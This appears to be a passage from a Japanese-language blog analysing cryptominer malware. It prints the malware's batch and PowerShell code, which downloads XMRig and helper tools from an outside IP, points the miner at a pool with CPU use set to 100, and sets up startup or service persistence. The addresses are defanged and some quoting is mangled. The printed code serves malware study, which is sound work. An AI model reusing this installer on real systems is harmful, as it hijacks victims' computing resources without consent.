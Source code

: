 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>XMRIGのダウンロード</h4>



<pre class="wp-block-code"><code>echo &#91;*] Downloading MoneroOcean advanced version of XMRig to “%USERPROFILE%\xmrig.zip”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.DownloadFile(‘http://141.85.161&#91;.]18/xmrig.zip’, ;%USERPROFILE%\xmrig.zip’)”
echo copying to mimu directory
if errorlevel 1 (
echo ERROR: Can’t download MoneroOcean advanced version of xmrig
goto MINER_BAD)</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>開梱してインストール</h4>



<pre class="wp-block-code"><code>echo &#91;*] Unpacking “%USERPROFILE%\xmrig.zip” to “%USERPROFILE%\mimu6”
powershell -Command “Add-type -AssemblyName System.IO.Compression.FileSystem; &#91;System.IO.Compression.ZipFile]::ExtractToDirectory(‘%USERPROFILE%\xmrig.zip’, ‘%USERPROFILE%\mimu6’)”
if errorlevel 1 (
echo &#91;*] Downloading 7za.exe to “%USERPROFILE%za.exe”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.Downloadfile(‘http://141.85.161&#91;.]18/7za.txt’, ‘%USERPROFILE%za.exe’”

powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”url\”: *\”.*\”,’, ‘\”url\”: \”207.38.87&#91;.]6:3333\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”user\”: *\”.*\”,’, ‘\”user\”: \”%PASS%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”pass\”: *\”.*\”,’, ‘\”pass\”: \”%PASS%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”max-cpu-usage\”: *\d*,’, ‘\”max-cpu-usage\”: 100,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
set LOGFILE2=%LOGFILE:\=\\%
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”log-file\”: *null,’, ‘\”log-file\”: \”%LOGFILE2%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
if %ADMIN% == 1 goto ADMIN_MINER_SETUP

if exist “%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup” (
set “STARTUP_DIR=%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
goto STARTUP_DIR_OK
)
if exist “%USERPROFILE%\Start Menu\Programs\Startup” (
set “STARTUP_DIR=%USERPROFILE%\Start Menu\Programs\Startup”
goto STARTUP_DIR_OK
)
echo &#91;*] Downloading tools to make gado_miner service to “%USERPROFILE%\nssm.zip”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.DownloadFile(‘&#91;http://141.85.161&#91;.]18/nssm.zip’, ‘%USERPROFILE%\nssm.zip’)”
if errorlevel 1 (
echo ERROR: Can’t download tools to make gado_miner service
exit /b 1</code></pre>
